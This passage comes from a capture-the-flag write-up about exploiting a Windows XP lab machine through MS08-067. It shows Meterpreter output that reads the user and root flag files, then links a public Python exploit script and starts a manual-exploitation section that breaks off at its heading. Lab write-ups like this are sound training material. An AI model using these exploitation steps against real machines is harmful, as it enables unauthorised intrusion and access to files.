```bash
```

First we'll get John's flag:

```bash
meterpreter > ls "C:\Documents and Settings\john\Desktop"

Listing: C:\Documents and Settings\john\Desktop
===============================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  32    fil   2017-03-16 07:19:49 +0100  user.txt

meterpreter > cat "C:\Documents and Settings\john\Desktop\user.txt"

e69af0e4f443de7e36876fda4e******
```

Then we'll go for `Administrator`:

```bash
meterpreter > ls "C:\Documents and Settings\Administrator\Desktop"

Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  32    fil   2017-03-16 07:18:50 +0100  root.txt

meterpreter > cat "C:\Documents and Settings\Administrator\Desktop\root.txt"

993442d258b0e0ec917cae9e6*******
```

## Manual w/o Metasploit

I want to attempt running this exploit manually without Metasploit or Meterpreter. This is good practice for OSCP and it might help me understand what this exploit is actually about.

We can search for explanations or scripts by either the name `CVE-2008-4250` or `MS08-067`.

I found a [Python script](https://gist.github.com/jrmdev/5881544269408edde11335ea2b5438de) on GitHub that looks promising. It requires [Impacket](https://github.com/fortra/impacket), a networking library for Python, that I already have installed (by default on Kali Linux).

### Script Analysis

Before we run this script, it is wise to read through it and understand what it's doing. **You can skip this section if you don't care about how the malicious code works.** I'll go over the most important snippets here:

#### Initialization
